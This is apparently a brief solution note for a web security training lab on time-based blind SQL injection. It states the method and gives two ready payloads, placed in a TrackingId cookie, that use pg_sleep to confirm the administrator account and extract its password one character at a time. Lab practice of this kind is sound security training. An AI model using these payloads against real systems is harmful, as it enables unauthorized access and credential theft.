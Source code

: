 # Lab 10: Blind SQL Injection with Time Delays

* **Solution**: Inject a conditional time delay (e.g., pg_sleep) into TrackingId to confirm the admin user, then extract the password via delays per character.
* **Final Payloads**:
  * TrackingId=xyz'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users -- (confirm user)
  * TrackingId=xyz'; SELECT CASE WHEN (SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator' -- (repeat for each position)